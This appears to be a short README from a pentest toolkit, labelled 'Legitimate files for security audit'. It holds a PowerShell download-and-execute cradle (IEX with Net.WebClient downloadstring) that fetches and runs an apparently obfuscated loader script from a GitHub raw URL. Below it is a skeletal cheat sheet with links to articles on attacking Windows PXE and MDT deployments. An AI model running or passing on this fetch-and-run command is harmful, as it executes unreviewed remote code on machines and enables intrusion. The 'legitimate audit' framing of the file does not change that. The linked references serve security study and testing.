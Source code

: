 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# Cyber Cheat Sheet

## Reconaissance & Enumération

## MEMCM - MDT - PXE

Ressources :
https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
https://www.acceis.fr/sattaquer-aux-images-pxe/
https://github.com/wavestone-cdt/powerpxe
https://tryhackme.com/r/room/breachingad
